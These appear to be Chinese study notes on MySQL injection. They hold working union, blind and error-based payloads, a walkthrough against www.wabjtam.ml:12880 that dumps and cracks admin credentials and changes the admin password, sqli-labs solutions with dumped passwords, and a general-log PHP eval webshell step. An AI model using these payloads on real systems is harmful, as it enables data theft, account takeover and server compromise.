# 渗透千万条,安全第一条

**WARNING**

1. 授权渗透,备份数据后渗透
2. 在不确定危害的前提下,避免在update、insert、

## SQLi基础

查询当前用户：select user()

查询当前数据库：select database()


### union和union all

**表数据:**


union和union all都是联合查询，用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中，区别在于union会去除重复的结果，union all不会。

> 要注意的是前后两个select语句中的列数必须一致

union:

```mysql
SELECT id FROM emp_tbl UNION SELECT NAME FROM emp_tbl
```

**查询结果:**

union all :

```mysql
SELECT id FROM emp_tbl UNION ALL SELECT NAME FROM emp_tbl
```

**查询结果:**


### 常用函数:

#### concat和group_concat

**表结构:**

concat函数用于将多个字符串连接到一起形成一个字符串，通常用于将多列合并到一列。

```mysql
SELECT CONCAT(id,NAME),DATE,singin FROM emp_tbl;
```

**查询结果:**

group_concat函数会将要查询的结果以一个组合的形式返回，group_concat需要和group_by函数配合使用，否则会将返回结果以一行显示。通常用于将多条记录合并为一条记录。

```mysql
SELECT GROUP_CONCAT(CONCAT(id,NAME)),DATE,singin FROM emp_tbl  #相当于把group_concat包含的字段的所有行都梭哈出来!
```

**查询结果**:


可以在concat的字段中间加任何符号来分隔不同列的数据:

```mysql
SELECT CONCAT(id,"--",NAME),DATE FROM emp_tbl #使用--将id和name字段的值分开
```

**查询结果:**

给concat()中的字段指定分隔符可以这样写:

```mysql
SELECT CONCAT_WS(">",id ,NAME,DATE ),DATE FROM emp_tbl     #符号可以随意指定,需要注意的是,给每个字段都添加分隔符,分隔符必须指定在在最前,否则就只能给左右两个相邻字段中间添加分隔符
```

**查询结果:**

除此之外还可以使用Separator关键字加分隔符：  (问题:separator只能在group_concat()中使用吗?)

```mysql
SELECT GROUP_CONCAT(id SEPARATOR '--' ),DATE FROM emp_tbl
```

**查询结果:**

==目前发现separator只能分隔行不能分隔列,分隔列还是要用上面concat的写法:==

```mysql
SELECT GROUP_CONCAT(id ,"--",NAME SEPARATOR '||' ),DATE FROM emp_tbl
```

查询结果:


#### length()

**表数据:**


该函数用于获取字符串的长度。

```mysql
SELECT LENGTH(NAME) FROM emp_tbl			#汉字在utf8编码中,汉字占3个字节,所以length()出来是汉字个数*3
```

**查询结果:**


#### mid()

**表数据:**


SQL MID() 函数用于得到一个字符串的一部分:==mid(指定字符串,起始位置,结束位置)==。这个函数被MySQL支持，但不被MS SQL Server和Oracle支持。在SQL Server， Oracle 数据库中，我们可以使用 SQL SUBSTRING函数或者 SQL SUBSTR函数作为替代。

```mysql
SELECT MID(title,2,7) FROM w3cs_tbl  #从查询结果不难看出,mid()函数起始位置2就是日常生活中的第2位,7就是第七为,并且将起始和结束位包含在内
```

**查询结果:**


#### left()

LEFT()函数是一个字符串函数，它返回具有指定长度的字符串的左边部分。==同样,mysql中也有right()函数,right()参数和left()函数一致,不过作用是从最右边开始返回指定长度的字符串==

用法：

```sql
SELECT LEFT(title,7) FROM w3cs_tbl
```

**查询结果:**


LEFT()函数接受两个参数：

- str是要提取子字符串的字符串。
- length是一个正整数，指定将从左边返回的字符数。

LEFT()函数返回str字符串中最左边的长度字符。如果str或length参数为NULL，则返回NULL值。

如果length为0或为负，则LEFT函数返回一个空字符串。如果length大于str字符串的长度，则LEFT函数返回整个str字符串。

请注意，SUBSTRING(或SUBSTR)函数也提供与LEFT函数相同的功能。

#### substr()

substr和mid函数的作用和用法基本相同，只不过substr支持的数据库更多，mid只支持mysql数据库。

用法：

    substr(var1, var2, var3)
    
    功能：从字符串里截取其中一段字符（串），从1开始奇数
    
    - var1：被截取的字符串
    - var2：从哪一位开始截取
    - var3：截取长度,不写则默认从var2开始截取到字符串末尾

```mysql
SELECT SUBSTR(title,2) FROM w3cs_tbl
```

**查询结果:**


```mysql
SELECT SUBSTR(title,2,6) FROM w3cs_tbl
```

**查询结果:**

#### sleep()

sleep函数可以让sql执行的时候暂停数秒（可小数），函数的返回结果为0.

#### if(expr1,expr2,expr3)

语法如下：

IF(expr1,expr2,expr3)，如果expr1的值为true，则返回expr2的值，如果expr1的值为false，则返回expr3的值。

#### count()

count函数是用来统计表中或数组中记录的一个函数，下面我来介绍在MySQL中count函数用法与性能比较吧。count(*) 它返回检索行的数目， 不论其是否包含 NULL值。

#### load_file()

load_file()可以用来读取文件，此函数的执行必须使用dba权限或者root权限。

需要注意的是：

mysql 新版本下secure-file-priv字段 ： secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的。

- ure_file_priv的值为null ，表示限制mysqld 不允许导入,导出
- 当secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入,导出只能发生在/tmp/目录下
- 当secure_file_priv的值没有具体值时，表示不对mysqld 的导入,导出做限制

如何查看secure-file-priv参数的值：

```sql
show global variables like '%secure%';
```

#### into outfile()

into outfile()函数可以将字符串写入文件，此函数的执行也需要很大的权限，并且目标目录可写。


## SQLi基本常识

1. 什么是SQLi?

​	SQLi(SQL injection),SQL注入

2. SQL注入的原理是什么?

   由于后端代码对于前端输入的识别和处理的不严谨,导致攻击者从前端提交的SQL语句片段被拼接到后端数据库查询语句中,执行语句外的SQL查询

3. SQL注入的危害是什么?

   条件满足的情况下会造成：拖库、写入文件、执行系统命令等。

   浅显的说法：盗窃系统机密数据、能够篡改网站页面、接管服务器

4. 找到一个SQL注入,如何利用?

   拖库、写入文件、执行系统命令等。

   能执行系统命令后,判断用户权限,如果是管理员权限,就有很多可做的事情,比如远程控制等

5. 通用的SQL注入的思路：

   1. 找到注入点
   2. 猜测后端查询语句
      1. 判断注入类型
      2. 判断闭合符
   3. 判断数据库版本是否大于4,以便后面使用information_schema库
   4. 构造注入

6. 联合查询SQLi的思路:

   1. 找到注入点
   2. 猜测后端查询语句
      1. 判断注入类型
      2. 判断闭合符
   3. 判断数据库版本是否大于4,以便后面使用information_schema库
   4. 判断字段数
   5. 判断显示位
   6. 查库名
   7. 查表名
   8. 查列名
   9. 查记录

## information_schema库

只有MySQL4.0以上的版本才有这个库

作用：保存数据库管理系统的各个库的结构信息（表明了：库中包含哪些表、表中包含哪些字段），相当于一个账簿的角色。


**information_schema数据库表说明:**

>1、SCHEMATA表：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。
>
>2、TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个[schema](https://so.csdn.net/so/search?q=schema&spm=1001.2101.3001.7020)，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。
>
>3、COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。
>
>4、STATISTICS表：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。
>
>5、USER_PRIVILEGES（用户权限）表：给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。
>
>6、SCHEMA_PRIVILEGES（方案权限）表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。
>
>7、TABLE_PRIVILEGES（表权限）表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。
>
>8、COLUMN_PRIVILEGES（列权限）表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。
>
>9、CHARACTER_SETS（字符集）表：提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。
>
>10、COLLATIONS表：提供了关于各字符集的对照信息。
>
>11、COLLATION_CHARACTER_SET_APPLICABILITY表：指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。
>
>12、TABLE_CONSTRAINTS表：描述了存在约束的表。以及表的约束类型。
>
>13、KEY_COLUMN_USAGE表：描述了具有约束的键列。
>
>14、ROUTINES表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名    为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。
>
>15、VIEWS表：给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。
>
>16、TRIGGERS表：提供了关于触发程序的信息。必须有super权限才能查看该表


**一些问题：**

1. 表名信息存在该库的哪张表里面？

   tables

2. 字段名信息存在该库的哪张表里面？

   columns

**练习任务：**

1. 从information_schema库的tables表中找到demo库有哪些表，写出对应的sql表达式

   ```mysql
   select table_name from information_schema.tables where table_schema = "demo"
   ```

   

2. 从information_schema库的columns表中找到demo库下emp_tbl表有哪些字段，写出对应的sql表达式

   ```mysql
   select column_name from information_schema.columns where table_schema ="demo" and table_name = "emp_tbl"
   ```

   


## 注意:

==只有使用了union查询的情况下,才需要判断网站使用的表的字段数,使用and则不需要!!!==

## 联合查询注入

注入流程:

1. 打开网站,找到一个注入点

   注入点:前端提交参数的点,提交的参数很可能会拼接到后端的查询语句中

2. 猜测后端查询语句:(同时需要在url请求的参数中加入不同的结束符号来找出结束符,找到报错点)

   ```mysql
   select * from t_xx where c_xx = xxx
   ```

   注:如果加入一个结束符后出现报错,则代表参数的结束符最少包含该字符,也可能还有别的字符

3. 判断数据库版本是否大于4,以便后面使用information_schema库

4. 通过order by num的方式让系统自己报错,慢慢尝试从而找到数据库的准确列数

5. 给原有的url中的字段指定一个不存在的值,使其查不到内容,从而显示联合查询后面的内容

6. 判断显示位置:

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,3,4,...  #有多少个order by 找出多少个字段,union后就要写多少个字段
   ```

   

7. 联合查询字段中带上database()查看当前网站所使用的数据库名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,database(),3,4,5,...
   ```

8. 在information_schema库中根据数据库名查表名

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,table_name3,4,5... from information_schema.tables where table_schema = "第6步查到的库名"	#只能查到并显示一张表
   
   #要想显示所有表,需要使用group_concat()函数
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(table_name),4,5... from information_schema.tables where table_schema = "第6步查到的库名"
   ```

   

9. 查询关键表的字段

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="库名" and table_name="7步查到的表名" 
   ```

   

   

10. 查询关键字段(如username,password等)的记录,得到用户名和密码.(密码有可能是被加密过的,如果是md5加密,可以用cmd5尝试解密)

   ```mysql
   select * from t_xx where c_xx = -1 union select 1,2,group_caoncat(username,"=",password),4,5 from 表名
   ```

   

11. 解密过后即可通过用户名和密码登录到系统当中!

    md5在线解密:

    > https://www.cmd5.com/

#### 记针对http://www.wabjtam.ml:12880的联合注入:

1. 打开网站,在新闻上传页面找到注入点,

   ```
   www.wabjtam.ml:12880/News/newsView.php?newsId=1    新闻信息页面存在注入点
   ```

2. 通过order by爆出列数

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=1%20order%20by%206
   ```

   得到列数为5,则联合查询也需要五个字段

3. 构造一个不存在的参数,使其查不到原有内容:

   ```
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1
   ```

4. 判断各个参数显示的位置:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,3,4,5
   ```

5. 找一个可以显示较多内容的文本框填入查询参数,查询当前网站的库名:

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,database(),4,5
   ```

   得到当前库名为:double_fish

6. 根据库名在information_schema库查所有表

   ```mysql
   http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = "double_fish"
   ```

   得到如下表:

   

7. 可以看出,t_admin表大概率是保存用户信息的表,优先查询t_admin表的字段和内容:

   1. 查字段:

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="double_fish" and table_name = "t_admin"
      ```

      得到如下字段,可以看出该表就是保存用户名和密码的表,直接梭哈该表:

      

   2. 查询t_admin表所有数据

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(username,"=",password),4,5 from t_admin
      ```

      得到如下结果:

      

8. 使用解密工具对密文进行解密,得到密码为:7878qwe,使用账号密码登录

   成功进入后台:

   

   ==修改后台密码==

   

   

#### sqli-labs靶场1-4关练习

##### 第一关

```
找注入点:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1
找闭合符:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'  
找列数:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'order by 3 %23
找字段显示位置:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,3 --+
找库名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,database() --+
找表名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22security%22%20--+    #emails,referers,uagents,users
找列名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22security%22%20and%20table_name=%22users%22--+
找用户名密码:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(username,%22=%22,password)%20from%20users--+

结果:Dumb=Dumb,Angelina=I-kill-you,Dummy=p@ssword,secure=crappy,stupid=stupidity,superman=genious,batman=mob!le,admin=admin,admin1=admin1,admin2=admin2,admin3=admin3,dhakkan=dumbo,admin4=admin4
```

==闭合符为单引号==

##### 第二关

步骤与第一关一致,但没有闭合符

##### 第三关

步骤与第一关一致,==闭合符为 ')==

##### 第四关

步骤与第一关一致,==闭合符为")==


#### 常用符号的url编码:

| 符号    | url编码 |
| ------- | ------- |
| 空格    | %20     |
| 双引号" | %22     |
| 井号#   | %23     |
| 单引号' | %27     |
| 加号+   | %2b     |
| 减号-   | %2d     |
| 反引号` | %60     |


## 布尔盲注

### 使用场景:

找到注入点后,==不管提交任何参数,添加任何闭合符,都只有显示或者不显示内容两种情况,就算提交错误的sql语句也没有任何错误回显==,则可以尝试使用布尔盲注进行注入

### 常用基本函数

#### ascii()

ascii函数用来返回字符串str的最左面字符的ASCII代码值（十进制）。如果str是空字符串，返回0。如果str是NULL，返回NULL。这个函数可以和substr函数配合来使用猜测一个字符。

#### if(expr1,expr2,expr3)

语法如下：

IF(expr1,expr2,expr3)，如果expr1的值为true，则返回expr2的值，如果expr1的值为false，则返回expr3的值。

#### count()

count函数是用来统计表中或数组中记录的一个函数，下面我来介绍在MySQL中count函数用法与性能比较吧。count(*) 它返回检索行的数目， 不论其是否包含 NULL值。

#### 布尔型SQLi的利用步骤

1. 找到注入点

2. 猜测后端查询语句

   1. 判断注入类型
   2. 猜测闭合符

3. 构造注入语句

   比如:ascii(substr(database(), 1, 1))>1

   ```mysql
   #基本构造语句
   select * from t_xx where c_xx = '1' and 0%23' LIMIT 0,1
   # 完整注入语句
   select * from t_xx where c_xx = '1' and ascii(substr(database(), 1,
   1))>1%23' LIMIT 0,1
   ```

   

4. 注入到url参数中提交

5. 不停变换比较的数字,找出我们想要查询的字母的ASCII码

6. ASCII码表中反查字符

7. 反复操作,查询出所有想查询的内容

## 时间盲注

### 适用场景:

==不管提交任何参数,添加任何闭合符,都是返回一个同样的界面,没有任何错误回显或者不显示的情况==,则可以尝试使用时间盲注来判断注入类型和闭合符以及执行后面的注入语句


先构造一个注入语句,把最后的注释加上,如果注入类型和闭合符判断正确,则会产生3秒延时

```mysql
http://192.168.96.135/sqli-labs/Less-9/
?id=-1 and if(3>2,sleep(3),1)
--+
```


### 常用函数:

#### sleep(n),延时n秒

### 时间盲注利用步骤

1. 找注入点
2. 猜测后端查询语句
   1. 判断注入类型(数字型还是字符型)
   2. 判断闭合符
3. 构造注入

## 报错注入

报错注入常用场景:

找到注入点之后==不管提交任何参数,都只有显示或不显示内容两种情况,并且如果有SQL语句错误,可以看到数据库管理系统输出的错误,==则可以使用报错注入的方式进行注入

### floor()报错注入

双（查询）注入，又称floor报错注入，想要查询select database()，只需要输入后面语句即可在MySQL报错语句中查询出来：

```mysql
1、union select count(*), concat((payload), floor(rand()*2)) as a from information_schema.tables group by a
2、and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

count(*)是必须带上的。
限制：

1. 输出字符长度限制为32个字符,查询到的数据超长无法显示的,可以使用substr()函数截取之后分段显示
2. 后台返回记录列数至少2列

报错注入需要满足的条件:

1. 注入语句中查询用到的表内数据必须>=3条
2. floor()报错注入在MySQL版本8.0 已失效，经过测试7.3.4nts也已失效

### updatexml()报错注入

- **介绍：**`updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。
- **作用：**改变文档中符合条件的节点的值
- **语法：**`updatexml(XML_document，XPath_string，new_value)` 第一个参数：是`string`格式，为XML文档对象的名称，文中为Doc ;第二个参数：代表`路径`，Xpath格式的字符串例如//title【@lang】; 第三个参数：`string`格式，替换查找到的符合条件的数据
- **原理：**`updatexml`使用时，当`xpath_string`格式出现错误，`mysql`则会爆出xpath语法错误（`xpath syntax`）
- **例如：** `select * from test where ide = 1 and (updatexml(1,0x7e,3));` 由于`0x7e`是`~`，不属于xpath语法格式，因此报出xpath语法错误。

MySQL执行1=(updatexml(1,concat(0x3a,(payload)),1))将报错。
限制1：

1. 输出字符长度限制为32个字符
2. 仅payload返回的不是xml格式，才会生效

### ExtractValue()报错注入

- **介绍：**此函数从目标XML中返回包含所查询值的字符串
- **语法：**`extractvalue(XML_document，xpath_string)` 第一个参数：`string`格式，为XML文档对象的名称，第二个参数：`xpath_string`（xpath格式的字符串） `select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
- **作用：**`extractvalue`使用时当`xpath_string`格式出现错误，mysql则会爆出xpath语法错误（`xpath syntax`）
- **例如：**`select user,password from users where user_id=1 and (extractvalue(1,0x7e));`
- **原理：**由于`0x7e`就是`~`不属于xpath语法格式，因此报出xpath语法错误。

#### 模板1：

```
and extractvalue('anything',concat('/',(Payload)))    将报错，不推荐使用。
```

#### 模板2：

```
union select 1,(extractvalue(1,concat(0x7e,(payload),0x7e))),3  不存在丢失报错成果的情况。推荐使用
```

#### 其他模板

```
1、通过floor报错,注入语句如下:
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2、通过ExtractValue报错,注入语句如下:
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));

3、通过UpdateXml报错,注入语句如下:
and 1=(updatexml(1,concat(0x3a,(payload)),1))

4、通过NAME_CONST报错,注入语句如下:
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)

5、通过join报错,注入语句如下:
select * from(select * from mysql.user ajoin mysql.user b)c;

6、通过exp报错,注入语句如下:
and exp(~(select * from (select user () ) a) );

7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );

8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );

9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );

10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );

11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );

12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
```


## 文件读写

### 读文件

select load_file("路径和文件名");
load data infile() ;

> load data infile 和 load data local infile ，不受 secure-file-priv 的限制 

### 写文件

```mysql
SELECT "123" INTO OUTFILE "c:/123.txt";
SELECT "123abc" INTO DUMPFILE "c:/123.txt";
```

注：dumpfile可以处理非可见字符。

要使用union查询写文件，不能使用and或者or拼接写文件

#### 条件

1. 绝对路径
2. `secure_file_priv `选项的值为空(my.ini文件中设置为`secure_file_priv=`
默认是NULL，可以通过my.conf/my.ini文件mysqld一栏里进行配置，配置完成后，重启便会生效。

#### 文件上传思路步骤：

1. 找到注入点
2. 判断列数
3. 猜测后端查询语句
  1. 判断注入类型
  2. 判断闭合符
4. 构造注入
  SELECT "123" INTO OUTFILE "c:/123.txt";
  select * from t_xx where c_xx=(('xx')) union SELECT 1,2,"123" INTO OUTFILE "c:/123.txt";%23'))

### 知识点拓展

在能够直接执行sql语句的应用中，如何通过SQL语句写日志getshell（文件上传学了之后再看）

```mysql
SHOW VARIABLES LIKE '%general%';# 查看日志配置（开关、位置）
set global general_log=on;# 开启日志
set global general_log_file='C:/phpstudy/www/methehack.php';# 设置日志位置为网站
目录
select '<?php eval($_POST["a"]); ?>'#执行生成包含木马日志的查询
```

